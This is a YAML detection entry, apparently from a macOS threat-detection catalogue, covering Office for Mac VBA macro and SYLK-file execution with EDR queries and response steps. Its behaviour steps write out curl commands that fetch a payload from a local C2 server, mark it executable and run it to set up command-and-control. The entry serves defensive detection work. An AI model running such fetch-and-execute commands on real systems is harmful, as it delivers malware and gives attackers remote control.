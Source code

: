 ```yaml
---
Name: Office for Mac
Description: These techniques are far more common on the Windows side, but Office for Mac also has the ability to execute VBA on macOS systems. These techniques are far less common, likely because they stand out from an EDR perspective and Microsoft has implemented sandboxing. 
Author: Adam Nadrowski
Created: 2022-05-18
Full_Path:
  - Path: /Applications/Microsoft Excel.app/Contents/MacOS/Microsoft Excel
  - Path: /Applications/Microsoft PowerPoint.app/Contents/MacOS/Microsoft PowerPoint
  - Path: /Applications/Microsoft Word.app/Contents/MacOS/Microsoft Word
  - Path: /bin/bash
Resources:
  - Link: https://outflank.nl/blog/2019/10/30/abusing-the-sylk-file-format
Commands:

  - Name: Macro VBA for Excel, PowerPoint and Word
    Description: This query detects any instance of Excel, PowerPoint or Word spawning processes. This is typically done using the MacScript function of VBA. The MacScript function is slowly being deprecated for the more popular AppleScript function.
    Usecase: Adversaries may pair this technique with a social engineering component to execute malware.
    Category: Execution
    Privileges: User
    MitreID: T1059.007
    Behaviors:
      - Step: When opening a Office for Mac file (Excel, PPT, or Word), launchd creates the "/Applications/Microsoft Excel.app/Contents/MacOS/Microsoft Excel|PowerPoint|Word" process as user.
      - Step: A prompt appears on the GUI asking the user to enable macros.
      - Step: Once a user enables macros, process_name Microsoft Excel|PowerPoint|Word executes multiple bash processes for each command in the macro. Each future bash process is unique.
      - Step: The first command, bash executes curl to download a payload to disk, and is saved under ~/Library/Containers/com.microsoft.Excel/Data (replace Excel with PowerPoint or Word). The command line is <pre><code>sh -c curl -k http://127.0.0.1:3391/payloads/d2526ae26fc2139263f57c2af445004e385772ec/operator-payload -o operator-payload</pre></code>
      - Step: The next command, bash executes chmod to make the payload executable. The command line is <pre><code>sh -c chmod +x operator-payload</pre></code>
      - Step: The next command, bash executes the payload to establish C2 comms with Prelude Operator. The command line is <pre><code>sh -c ./operator-payload -name macro-vba-excel & </pre></code>
      - Step: The payload, ~/Library/Containers/com.microsoft.Excel/Data/operator-payload (replace Excel with PowerPoint or Word) makes a network connection to Operator.
    Execute:
      - Prelude Operator: Run <a href="https://github.com/AutomoxSecurity/iShelly">iShelly</a> with any of the VBA based techniques within the "Office for Mac" options. It is important to note that Office for Mac 2016 and higher has an Apple Sandbox with more resitrctions. This means techniques that leverage VBA macros to write a binary to disk will likely fail. However, it is still important to test this as <a href="https://www.mdsec.co.uk/2018/08/escaping-the-sandbox-microsoft-office-on-macos/">sandbox escapes</a> may be possible.
    Detect:
      - EDR: (parent_process_image_path = "/Applications/Microsoft Excel.app/*" OR parent_process_image_path = "/Applications/Microsoft PowerPoint.app/*" OR parent_process_image_path = "/Applications/Microsoft Word.app/*") and process_name = "bash" and event_type = "Process Create"
    Respond:
      - Step: Review the cmdline of bash's children. This should make it fairly easy to tell if it is malicious or not. For example, if it's curl reaching out to a suspect domain/IP and saving some payload to disk using -o argument, it likely warrants immediate investigation.

  - Name: Excel macro execution via SYLK file extension
    Description: This query detects any instance of Excel launching the bash process. The SYLK file extension is an ancient extension that can be abused to execute macros. Thankfully, the OS behaviors mimick that of regular macros being executed, so the same query from the "Macro VBA for Excel, PowerPoint and Word" TTP will detect this.
    Usecase: Adversaries may pair this technique with a social engineering component to execute malware.
    Category: Execution
    Privileges: User
    MitreID: T1059.007
    Behaviors:
      - Step: When opening a file with the slk extension, launchd creates the "/Applications/Microsoft Excel.app/Contents/MacOS/Microsoft Excel" process as user.
      - Step: A prompt appears on the GUI asking the user to enable macros.
      - Step: Once a user enables macros, process_name "Microsoft Excel" executes one bash process with the cmdline <pre><code>sh -c /usr/bin/curl -k http://127.0.0.1:3391/payloads/d2526ae26fc2139263f57c2af445004e385772ec/operator-payload -o operator-payload && chmod +x operator-payload && ./operator-payload -name macro-sylk-excel & </pre></code>
      - Step: The first command, curl, downloads a payload to disk, and is saved under ~/Library/Containers/com.microsoft.Excel/Data/operator-payload.
      - Step: The next command, chmod, makes the payload executable.
      - Step: The next command, operator-payload, is the malicious payload that executes to establish C2 comms with Prelude Operator.
      - Step: The payload, ~/Library/Containers/com.microsoft.Excel/Data/operator-payload makes a network connection to Operator.
    Execute:
      - Prelude Operator: Run <a href="https://github.com/AutomoxSecurity/iShelly">iShelly</a> with the "Macro SYLK Excel" procedure from the "Office for Mac" options. It is important to note that Office for Mac 2016 and higher has an Apple Sandbox with more resitrctions. This means techniques that leverage VBA macros to write a binary to disk will likely fail. However, it is still important to test this as <a href="https://www.mdsec.co.uk/2018/08/escaping-the-sandbox-microsoft-office-on-macos/">sandbox escapes</a> may be possible.
    Detect:
      - EDR: parent_process_image_path = "/Applications/Microsoft Excel.app/*" and process_name = "bash" and event_type = "Process Create"
    Respond:
      - Step: Review the cmdline of bash's children. This should make it fairly easy to tell if it is malicious or not. For example, if it's curl reaching out to a suspect domain/IP and saving some payload to disk using -o argument, it likely warrants immediate investigation.
---
```

